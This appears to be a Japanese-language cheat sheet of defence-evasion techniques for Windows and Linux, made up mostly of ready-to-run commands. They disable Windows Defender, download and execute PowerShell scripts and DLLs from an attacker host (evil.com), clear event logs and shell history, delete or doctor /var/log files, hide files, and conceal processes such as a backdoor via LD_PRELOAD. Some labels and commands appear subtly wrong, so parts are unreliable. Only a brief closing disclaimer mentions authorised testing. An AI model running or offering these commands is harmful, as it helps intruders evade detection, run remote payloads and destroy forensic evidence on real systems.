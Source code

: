 # Defense Evasion Techniques

## Windows 防御回避

### アンチウイルス回避
```powershell
# Windows Defender の無効化（管理者権限必要）
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true

# PowerShell 実行ポリシーのバイパス
powershell -ep bypass -nop -noexit -c "IEX (New-Object Net.WebClient).DownloadString('http://evil.com/script.ps1')"
```

### ログ削除
```powershell
# Windows イベントログのクリア
wevtutil cl System
wevtutil cl Security
wevtutil cl Application

# PowerShell ヒストリーの削除
Remove-Item (Get-PSReadlineOption).HistorySavePath
```

### メモリ内実行
```powershell
# Reflective DLL インジェクション
$bytes = (New-Object Net.WebClient).DownloadData('http://evil.com/payload.dll')
[System.Reflection.Assembly]::Load($bytes)

# PowerShell クレデンシャル保護バイパス
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

## Linux 防御回避

### ログ改ざん
```bash
# ログファイルの削除
rm -rf /var/log/*

# ログの選択的削除
grep -v "攻撃の痕跡" /var/log/auth.log > /tmp/clean_log && mv /tmp/clean_log /var/log/auth.log
```

### ファイルシステム隠蔽
```bash
# ファイル属性の変更
chattr +i file.txt  # 変更不可
chattr +s file.txt  # セキュアな削除
chattr +u file.txt  # アンデリート

# 隠しディレクトリの作成
mkdir "... "  # スペースで終わる名前
```

### プロセス隠蔽
```bash
# プロセス名の偽装
ps -ef | grep python | awk '{print $2}' | xargs -I % sh -c 'echo "#!/bin/bash\necho -n 1" > /proc/%/comm'

# プロセスの隠蔽（libprocesshider）
gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
LD_PRELOAD=/path/to/libprocesshider.so python backdoor.py
```

## 注意事項
- これらの技術は、許可された環境でのペネトレーションテストでのみ使用してください
- システムのセキュリティ機能を無効化する可能性があります
- 実環境での使用は違法となる可能性があります 